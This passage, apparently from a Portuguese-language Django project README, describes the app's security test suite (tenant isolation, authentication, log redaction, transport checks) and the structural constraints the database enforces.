| A não acessa / edita / exclui recurso de B | `test_cross_tenant.py` — todo tipo de recurso × todo método HTTP |
| Acesso indevido tratado com segurança | 404 em tudo, **nunca 403** — 403 confirmaria que o recurso existe |
| Endpoints protegidos exigem autenticação | `test_auth_required.py` — 401 sem token e com token inventado |
| Senha nunca em texto puro | `test_credentials.py` — confere a LINHA inteira no banco, não só a coluna |
| HTTPS em produção | `test_transport.py` — roda `check --deploy --fail-level WARNING` num subprocesso |
| Dado sensível fora do log | `test_logging_redaction.py` — fluxo CRUD completo, o CPF não aparece em nenhuma linha |
| Export exige autenticação e autorização | `test_export_authorization.py` |
| Alerta não expõe dado sensível | payload mínimo; marcar a coluna como sensível protege até os alertas já emitidos |

Dois testes valem por si, porque **crescem com o app** em vez de congelar uma
lista:

- `test_every_api_route_is_classified` varre a URLconf e falha se aparecer uma
  rota que ninguém declarou como pública ou protegida. Endpoint novo sem
  permissão não passa despercebido — a decisão vira revisão de código.
- `test_every_configured_handler_redacts` falha se alguém acrescentar um handler
  de log sem o filtro de redação. O filtro fica no handler, não no logger (é a
  única posição que alcança `django.request` e bibliotecas), então cada handler
  novo precisa da sua própria linha.

E um terceiro, que nasceu de sabotar o código para ver se a suíte reagia:
`test_queryset_layer.py` testa a **primeira** barreira com a RLS fora de cena.
Apagar `filter(user=...)` de um `get_queryset()` não quebrava nenhum outro teste
— a RLS filtrava a mesma consulta no banco e a API continuava correta. É a defesa
em profundidade funcionando, mas deixaria a camada 1 sumir sem sinal. O teste
usa `force_authenticate`, que pula as classes de autenticação e portanto não
entra no papel `remind_app`; cada caso confere esse pressuposto antes de afirmar
qualquer coisa.

Cobertura do código de domínio: **92%**, gate em 85% (`make cov`).

### Regras estruturais garantidas pelo banco

Não só pelo serializer — os testes provam cada uma passando por cima da API:

- No máximo **uma coluna `due_date` por tabela** (índice único parcial, RF06).
- **Nome de tabela único por usuário** — dois usuários podem ter tabelas homônimas.
- **`key` de coluna única por tabela**, gerada por slug do rótulo com sufixo em colisão.
- **Posição única por tabela**, com constraint `DEFERRABLE INITIALLY DEFERRED` — é o que permite ao reorder permutar tudo numa transação, passando por estados temporariamente duplicados.
